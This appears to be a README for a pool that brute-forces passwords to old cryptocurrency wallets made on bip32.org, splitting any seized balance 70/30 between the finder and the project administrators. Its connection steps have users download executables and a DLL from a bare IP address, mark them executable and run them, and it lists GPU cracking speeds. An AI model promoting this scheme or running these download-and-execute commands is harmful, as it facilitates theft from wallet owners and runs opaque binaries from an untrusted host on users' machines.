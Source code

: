 # bip39scan v2.0.1 POOL
**Collective search of old coins from the site [bip32.org](http://bip32.org)**

➡️ Online Statistic https://bip39scan.com<br>
➡️ Telegram group https://t.me/bip39scan

**Pool conditions:**<br>
💰 70% of the balance of the find to the one who found the password.<br>
💵 30% of the balance of the find to the project administration

## Connect to the pool
#### Linux:
wget http://95.215.108.160/up/xx<br>
wget http://95.215.108.160/up/precomp.bin<br>
wget http://95.215.108.160/up/libcrypto-1_1-x64.dll<br>
```chmod +x xx```<br>
```./xx -u YourNickName --bloom 2048M```<br>

#### Windows:
http://95.215.108.160/up/xx.exe<br>
http://95.215.108.160/up/precomp.bin<br>
http://95.215.108.160/up/libcrypto-1_1-x64.dll<br>
```xx.exe -u Nick_Name --bloom 2048M```<br>

## Question and Answer

All clients perform their part (chunk) of the overall task.<br>
Only CUDA cards support GTX, RTX, CMP<br>
Brute speed:<br>
RTX 4090 = 60k/s<br>
RTX 5090 = 90k/s<br>


The client automatically downloads the address database. <br>
If the database on the server has changed, it automatically updates it. <br>
After downloading, the client checks the checksum of the database, which excludes incompletely downloaded addresses.

After launching, the client displays only the speed.<br>
If the client finds an address, the window displays the found address.<br>
<img width="977" height="510" alt="Image" src="https://github.com/user-attachments/assets/29720e79-e401-4d2c-82e1-f134dc52858d" />



